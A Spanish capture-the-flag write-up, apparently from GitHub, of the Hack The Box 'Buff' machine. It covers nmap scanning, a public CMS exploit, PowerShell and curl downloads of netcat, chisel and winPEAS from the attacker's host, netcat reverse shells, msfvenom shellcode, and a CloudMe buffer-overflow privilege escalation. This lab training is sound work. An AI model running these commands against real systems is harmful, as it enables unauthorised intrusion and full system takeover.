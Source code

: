 #  BUFF MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/1.PNG)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 - v -n 10.10.10.198 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.198 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/3.PNG)

## EXPLOTACION

Veamos la pagina web desde el navegador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/4.PNG)

indagando un poco en el apartado **contact** nos dice el gestor de contenido y la version:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/5.PNG)

si lo buscamos en google damos con el siguiente enlace:

[https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506)

lo copiamos y cuando lo ejecutamos nos da una sesion interactiva:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/6.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/7.PNG)

```bash
python exploit.py http://10.10.10.198:8080/
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/8.PNG)


con powershell nos vamos a pasar netcat y vamos a establecer una reverse shell:

```bash
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/nc.exe', 'C:\xampp\htdocs\gym\upload\nc.exe')"
```

**Nota**

**tambien puedes hacerlo con curl**

```bash
curl http://10.10.14.16:8000/nc.exe -o nc.exe
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/9.PNG)

nos mandamos una reverse shell a nuestra maquina Kali con previa escucha:

```bash
nc.exe -e cmd 10.10.14.18 4242 #WINDOWS

nc -lvnp 4242 #KALI
```
nos ponemos desde la maquina kali a la escuhca en ese puerto y tenemos una sesion, podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/10.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/11.PNG)

## ELEVACION DE PRIVILEGIOS

vamos a pasarnos el **winPEAS** para ver como podemos escalar privilegios porque no se encontro nada especial:

```bash
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/winPEASx64.exe', 'C:\xampp\htdocs\gym\upload\winPEASx64.exe')"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/12.PNG)

lo ejecutamos y vemos que tenemos permisos especiales un en programa llamado **CloudMe** es decir lo podemos correr como el usuario system, vamos a buscarlo en google para saber que es:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/13.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/14.PNG)

si buscamos sobre que puerto opera ese servicio:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/15.PNG)

```bash
searchsploit cloudme
```

vemos vulnerabilidades de Buffer Overflow, vamos a usar este en particular:

```bash
searchsploit -m
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/16.PNG)

vamos a usar el 44470, lo descargamos en nuestro equipo local y examinamos:

debemos generar una shellcode y lo manda al puerto 8888 de mnera local:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/17.PNG)

vamos agenerar la carga util: 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4545 -f c
```

y lo reemplaamos.

ahora aqui hay un problema, tenemos un exploit para explotar el puerto 8888 el servicio de cloud a traves de un buffer overflow, pero es una explotacion local, podriamos pasar el python a la maquina windows y luego el exploit para escalar privilegios, como tiene permisos totales entrariamos como system. Pero mas sencilo es hacer **port forwarding** que es apuntar un puerto del equipo victima a nosotros. Es decir redireccionar todo lo que pase por el puerto 8888 de la maquina windows para que pase por el puerto 8888 u otro de nuestra maquina kali, de esta forma si lo explotamos con el script desde nuestro equipo nos dara conexion al puerto 8888 de la maquina windows. 

Para ello usaremos chisel, puedes descargar los compildos para windows y linux [aqui](https://github.com/jpillora/chisel/releases/tag/v1.7.6) funciona con un cliente (en este caso la maquina windows) y un servidor (la maquina kali):

pasamos **chisel.exe** a la maquina windows:

```bash
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/chisel.exe', 'c:\Users\shaun\Downloads\chisel.exe')"
```

montmos el servidor en la maquina kali:

```bash
chmod +x chisel
./chisel server -p 8008 --reverse
```

establecemos el cliente en windows:

```bash
chisel.exe client 10.10.14.16:8008 R:8888:127.0.0.1:8888
```

si vemos en la maquina kali ya tenemos corriendo algo en el puerto 8888:

```bash
lsof -i:8888
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/18.PNG)

ahora vamos a ejecutar el script con nuestra shellcode y nos colocamos a la escucha en el puerto que establecimos:

```bash
python 44470.py 
```

kali:

```bash
rlwrap nc -lvnp 4545
```

y tenemos una conexion reverse como system:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/19.PNG)

podemos ver las flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/20.PNG)

**NOTA MENTAL**

revisar bien la salida del winPEAS.

Exportarlo con:

```bash
winPEAS.exe cmd > output.txt
```

pasartelo a tu equipo por netcat u otro medio y abrirlo con more paraverlo mejor:

```bash
cat output.txt | more
```
